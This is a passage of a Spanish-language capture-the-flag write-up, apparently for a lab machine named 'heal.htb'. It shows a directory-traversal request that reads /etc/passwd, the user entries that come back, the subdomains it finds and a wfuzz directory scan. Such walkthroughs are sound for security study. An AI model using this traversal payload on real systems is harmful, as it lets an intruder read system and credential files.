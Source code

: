 ## Explotación LFI 


Como dije anteriormente, cuando vemos un `codigo?variable=` suelen ser vulnerables a los LFI y este caso no es la excepción, modificaremos la petición para que en vez de que busque el PDF que genera, apunte a un archivo diferente como el `/etc/passwd` usando `Directory Traversal` 

```php
GET /download?filename=../../../../../../../etc/passwd
```

![[Pasted image 20250115224248.png]]

Podemos leer el `passwd` y con ello encontramos a los siguientes usuario del sistema :

```python
root:x:0:0:root:/root:/bin/bash

ralph:x:1000:1000:ralph:/home/ralph:/bin/bash

postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
```


Ok ahora a mirar el archivo del `crontab` . pero en esta ocasión no tenemos nada interesante 
![[Pasted image 20250115224836.png]]


# Sub-Dominios 

En esta pagina tenemos hasta ahora 2 sub-dominios lo cuales son los siguientes
```python
heal.htb que # Es el de la pagina principal
api.heal.htn # Ques el el Api que esta por detras 
```

Pero contamos con un tercero el cual lo podemos encontrar en el botón de `survey`![[Pasted image 20250115225234.png]]
![[Pasted image 20250115225243.png]]![[Pasted image 20250115225252.png]]

El tercer dominio es el de 
```python
take-survey.heal.htb # Agregalo a tu /etc/hosts
```

No tenemos mucho que explorar aquí, así que realizaremos un descubrimiento de directorios con `wfuzz`

```bash
$  wfuzz -c -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://take-survey.heal.htb/FUZZ --hc 404,403
```

Con el cual podemos encontrar una dirección de `Admin`
al ponerlo en el navegador nos mostrara un panel de inicio de sesión 
